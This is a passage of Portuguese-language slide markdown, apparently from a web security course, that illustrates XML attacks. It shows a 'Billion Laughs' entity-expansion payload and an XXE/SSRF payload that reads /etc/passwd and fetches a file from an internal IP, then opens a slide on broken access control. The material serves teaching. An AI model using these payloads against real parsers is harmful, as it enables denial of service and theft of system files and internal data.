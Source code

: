<v-click>

### Billions Laught attack
```xml {4-7|10|all}
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY>
  <!ENTITY bar "World ">
  <!ENTITY t1 "&bar;&bar;">
  <!ENTITY t2 "&t1;&t1;&t1;&t1;">
  <!ENTITY t3 "&t2;&t2;&t2;&t2;&t2;">
]>
<foo>
  Hello &t3;
</foo>
```
</v-click>

</div>

<div>

<v-click>

### SSRF
```xml {4,5,10|6,7,11|all}
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY>
  <!ENTITY xxe SYSTEM
  "file:///etc/passwd">
  <!ENTITY internaladdrs SYSTEM
  "http://192.168.0.1/secret.txt">
]>
<foo>
  &xxe;
  &internaladdrs;
</foo>
```
</v-click>
</div>

</div>

---

# Quebra no controle de acesso

<div grid="~ cols-2 gap-4">
<div>
As restrições sobre o que os utilizadores autenticados estão autorizados a fazer nem sempre são corretamente verificadas. Os atacantes podem abusar destas falhas para aceder a funcionalidades ou dados para os quais não têm autorização, tais como dados de outras contas de utilizador, visualizar ficheiros sensíveis, modificar os dados de outros utilizadores, alterar as permissões de acesso, entre outros.
</div>
